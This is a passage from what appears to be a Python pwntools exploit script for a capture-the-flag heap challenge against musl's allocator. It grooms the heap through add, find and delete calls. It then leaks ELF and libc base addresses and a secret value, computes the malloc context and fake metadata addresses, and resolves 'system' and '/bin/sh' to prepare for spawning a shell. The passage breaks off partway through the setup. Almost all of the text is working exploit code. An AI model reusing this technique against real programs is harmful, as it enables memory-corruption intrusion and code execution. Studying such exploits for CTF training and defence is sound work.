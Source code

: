     ## 0x28 has 10 chunks
    ## leak info
    add(b'vulnerabl',len(b'vulnerabl'),b'vulnerabl',len(b'vulnerabl'))
    forget()
    for i in range(8):
        find(b'2'*0x28,0x28)
    add(b'vulnerabl',len('vulnerabl'),b'0'*0x28,0x28) 
    add(b'control',len('control'),b'1'*0x28,0x28)
    for i in range(5):
        find(b'2'*0x28,0x28)
    delete(b'vulnerabl',len('vulnerabl'))
    add(b'aaaa',len(b'aaaa'),b'c'*0x38,0x38)
    find(b'vulnerabl',len('vulnerabl'))
    io.recvuntil(":")
    leak_elf = io.recv(16)
    elf_base = int(leak_elf[14:16]+leak_elf[12:14]+leak_elf[10:12]+leak_elf[8:10]+leak_elf[6:8]+leak_elf[4:6]+leak_elf[2:4]+leak_elf[0:2],16)-0x4c90
    #print("leak_elf:"+hex(int(leak_elf[14:16]+leak_elf[12:14]+leak_elf[10:12]+leak_elf[8:10]+leak_elf[6:8]+leak_elf[4:6]+leak_elf[2:4]+leak_elf[0:2],16)))
    leak_libc = io.recv(16)
    libc.address = int(leak_libc[14:16]+leak_libc[12:14]+leak_libc[10:12]+leak_libc[8:10]+leak_libc[6:8]+leak_libc[4:6]+leak_libc[2:4]+leak_libc[0:2],16)-0xb3fb0
    #print("leak_libc:"+hex(int(leak_libc[14:16]+leak_libc[12:14]+leak_libc[10:12]+leak_libc[8:10]+leak_libc[6:8]+leak_libc[4:6]+leak_libc[2:4]+leak_libc[0:2],16)))
    mmap_base = libc.address-0x4000
    ctx = libc.address + 0xb0aa0 ## how to find malloc_context ? use libc.so->malloc and find ctx.seq ctx = ctx.seq-0x390
    fake_meta_addr = mmap_base + 0x2010
    fake_mem_addr = mmap_base + 0x2040
    system = libc.sym['system']
    bin_sh = next(libc.search(b"/bin/sh\x00"))
    stout = libc.address+0xB02E0

    print("elf_base:"+hex(elf_base))
    print("libc_base:"+hex(libc.address))
    print("mmap_base:"+hex(mmap_base)) 

    for i in range(5):
        find(b'3'*0x28,0x28)

    payload = p64(elf_base+0x4c40)+p64(ctx)+p64(len(b'vulnerabl'))+p64(0x28)+p64(0)
    find(payload,0x28)
    find(b'vulnerabl',len('vulnerabl'))
    io.recvuntil(":")
    secret=io.recv(16)
    secret=int(secret[14:16]+secret[12:14]+secret[10:12]+secret[8:10]+secret[6:8]+secret[4:6]+secret[2:4]+secret[0:2],16)
    print("secret:"+hex(secret))
    #gdb.attach(io)
    add(b'big_map',len(b'big_map'),b'a'*0x1200,0x1200)
